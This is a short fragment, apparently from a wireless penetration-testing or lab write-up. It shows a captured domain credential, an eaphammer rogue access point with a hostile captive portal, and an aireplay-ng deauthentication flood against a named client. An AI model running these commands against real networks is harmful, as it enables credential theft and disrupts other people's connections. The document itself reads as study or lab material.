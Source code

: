 And bingo !

![](Images/Recon23_01.png)

credentials `CORPO\god:tommy1`

With responder:

```shell
cd ~/tools/eaphammer
sudo killall dnsmasq
./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid WiFi-Restaurant --interface wlan2 --hostile-portal
```

```shell
sudo iwconfig wlan0mon channel 44
sudo aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
```

![](Images/Recon23_02.png)
